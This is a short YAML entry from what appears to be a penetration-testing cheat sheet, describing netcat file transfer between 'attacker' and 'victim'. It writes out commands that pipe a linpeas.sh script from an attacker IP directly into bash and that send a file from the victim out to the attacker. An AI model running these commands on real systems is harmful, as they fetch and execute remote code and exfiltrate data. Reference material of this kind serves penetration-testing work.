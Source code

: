 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference: |

  	File to copy: linpeas.sh

    Copy from attacker to victim: nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)

    Copy from victim to attacker: nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)


command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

